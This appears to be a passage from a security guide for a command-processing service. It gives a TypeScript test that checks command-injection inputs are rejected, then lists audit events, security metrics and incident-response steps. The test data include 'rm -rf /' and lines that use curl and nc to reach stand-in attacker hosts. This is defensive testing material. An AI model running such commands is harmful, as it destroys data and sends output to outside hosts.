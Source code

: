 #### Automated Security Scanning
```typescript
// Example security test
describe('Security Tests', () => {
  it('should reject command injection attempts', async () => {
    const maliciousInputs = [
      'ls; rm -rf /',
      'ls && curl malicious.com',
      'ls | nc attacker.com 4444'
    ];
    
    for (const input of maliciousInputs) {
      const result = await processor.processCommand(input);
      expect(result.exitCode).toBe(403);
      expect(result.output).toContain('Security Error');
    }
  });
});
```

### 7. Security Monitoring

#### Audit Events
- Failed authentication attempts
- Command execution attempts
- Unusual patterns or behavior
- Rate limit violations

#### Security Metrics
- Track security incidents
- Monitor vulnerability fixes
- Measure security test coverage
- Audit security configurations

### 8. Incident Response

#### Security Incident Procedure
1. **Immediate Response (0-1 hour)**
   - Assess scope and impact
   - Contain the incident
   - Preserve evidence

2. **Investigation (1-24 hours)**
   - Analyze logs and evidence
   - Identify root cause
   - Document findings

3. **Recovery (24-72 hours)**
   - Implement fixes
   - Restore services
   - Monitor for recurrence
